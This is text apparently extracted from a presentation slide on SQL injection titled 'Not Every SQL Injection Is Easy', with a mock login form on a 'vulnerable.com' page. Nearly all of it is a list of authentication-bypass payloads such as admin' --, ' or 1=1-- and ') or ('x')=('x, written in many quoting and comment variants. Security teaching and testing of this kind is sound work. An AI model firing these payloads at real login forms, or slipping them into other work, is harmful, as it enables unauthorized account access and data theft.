

'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
Not Every SQL Injection Is Easy

https://vulnerable.com/login
Login Plzzz
Username:

Password:

Submit